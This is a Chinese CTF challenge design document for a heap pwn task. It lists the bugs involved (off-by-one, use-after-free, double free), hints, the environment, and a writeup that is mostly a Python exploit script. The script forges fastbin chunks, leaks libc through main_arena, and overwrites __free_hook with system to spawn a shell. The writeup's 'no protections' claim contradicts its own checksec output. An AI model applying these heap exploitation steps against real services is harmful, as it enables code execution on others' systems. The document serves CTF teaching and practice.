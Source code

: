 # 赛题设计说明

## 题目信息：

* 题目名称：pwn
* 预估难度：中等偏难 
* 编译命令：gcc -fstack-protector-all -D_FORTIFY_SOURCE=2 -z now -o pwn pwn.c

## 题目描述：

> welcome to be dessert of kotori

## 题目考点：

1. off by one
2. uaf
3. double free


## 思路简述：
有一个字节的溢出可以改flag标志

然后通过fastbin attack修改bss段上max的值

再通过unsorted bin leak libc

再劫持__free_hook


## 题目提示：
1. bss段上有惊喜
2. off by one
3. __free_hook,main_arena


## 原始 flag 及更新命令：

```shell
    # 原始 flag
    flag{flag_test}
    # ..
    # 更新 flag 命令
    echo 'flag{85c2a01a-55f7-442a-8712-3f6908e1463a}' > /flag
```

## 题目环境：

1. Ubuntu 16.04 LTS
2. xinetd + chroot

## 题目制作过程：

1. 编写 pwn.c 代码，详细代码请从 “源码” 文件夹获取，
2. 编译方式在make.sh，

## 题目 writeup：

1. 检查题目保护，发现无保护

   kotori@kotori-virtual-machine  ~/ctf/my_pwn/ciscn  checksec pwn
   [*] '/home/kotori/ctf/my_pwn/ciscn/pwn'
       Arch:     amd64-64-little
       RELRO:    Full RELRO
       Stack:    Canary found
       NX:       NX enabled
       PIE:      No PIE (0x400000)

2.  

   ```python
   #change max
   #在bss段上伪造fastbin header来在malloc一块可以覆盖max的区域
   for i in range(18):
       add(str(i),0x20,'AAAA','\x00' * 8)
   add('18',0x20, 'AAAA', '\x00' * 8 + '\x31')
   eat(1)
   eat(2)
   eat(0)
   add('A',0x20,'AAAA','\x00' * 8 + '\x01')#0
   eat(1)
   #gdb.attach(p)
   add('A', 0x20, p64(0x6022b8) + p64(0x6022b8), '\x00' * 8)#1
   add('A', 0x20, 'AAAA', '\x00' * 8)#2
   change(2, 0x20, 'AAAA')
   #gdb.attach(p)
   change(2, 0x20, 'A' * 24 + p64(0x30000))
   #db.attach(p)
   #leak libc
   eat(4)
   add('4', 0x100, 'AAAA', '\x00' * 8)
   change(1, 0x40, 'AAAA')
   #gdb.attach(p)
   eat(4)
   add('4', 0x100, 'a' * 8, '\x00' * 8 + '\x01')
   #gdb.attach(p)
   show(4)
   print p.recvline()
   print p.recvline()
   print p.recvline()
   print p.recvline()
   main_arena = u64((p.recvline()[8:14]).ljust(8,'\x00')) - 88
   print hex(main_arena)
   libc_base = main_arena - 0x3C4B20
   malloc_hook = libc_base + 0x3c4b10
   one_gadget = libc_base + 0x45216
   free_hook = libc_base + 0x3c67a8
   system = libc_base + 0x45390
   print hex(libc_base)
   
   
   
   
   #fake chunk header in main_arena
   #gdb.attach(p)
   eat(10)
   eat(11)
   add('A',0x60,'AAAA','\x00' * 8)#10
   add('A',0x60,'AAAA','\x00' * 8)#11
   eat(10)
   eat(11)
   eat(9)
   add('A',0x20,'AAAA','\x00' * 8 + '\x01')#9
   eat(10)
   #gdb.attach(p)
   add('A',0x60,p64(0x51) + p64(0x51),'\x00' * 8)#10
   add('A',0x60,'AAAA','\x00' * 8)#11
   change(11, 0x60, 'AAAA')
   
   
   
   #将double free伪造chunk分配到main_arena上，改top 为free_hook - 0xb58
   eat(13)
   eat(14)
   add('A',0x40,'AAAA','\x00' * 8)#13
   add('A',0x40,'AAAA','\x00' * 8)#14
   eat(13)
   eat(14)
   eat(12)
   add('A',0x20,'AAAA','\x00' * 8 + '\x01')#12
   eat(13)
   #gdb.attach(p)
   add('A', 0x40, p64(main_arena + 0x28) + p64(main_arena + 0x28), '\x00' * 8)#13
   add('A', 0x40, 'AAAA', '\x00' * 8)#14
   change(11, 0x40, 'AAAA')
   #gdb.attach(p)
   change(11, 0x40, '\x00' * 0x20 + p64(free_hook - 0xb58))
   
   
   #改free_hook为system，getshell
   for i in range(5):
       eat(i + 4)
   for i in range(5):
       add('A', 0x1f0, '\x00', '\x00' * 8)
   #gdb.attach(p)
   
   eat(15)
   eat(16)
   add('A', 0x200, '\x00' * 0x148 + p64(system),'\x00' * 8)
   bin_sh = libc_base + 0x18cd57
   add('sh'.ljust(0x10,'\x00'),0x20, 'sh'.ljust(0x20, '\x00'), '\x00' * 8)
   print hex(free_hook)
   print hex(system)
   #gdb.attach(p)
   eat(16)
   ```

3. 编写 exp.py ，获取flag，详细代码请从 “exp脚本” 文件夹获取

## 注意事项

1. 题目名称不要有特殊符号，可用下划线代替空格；
2. 根据设计的赛题，自行完善所有文件夹中的信息；
3. 此文件夹下信息未完善的队伍，将扣除一定得分。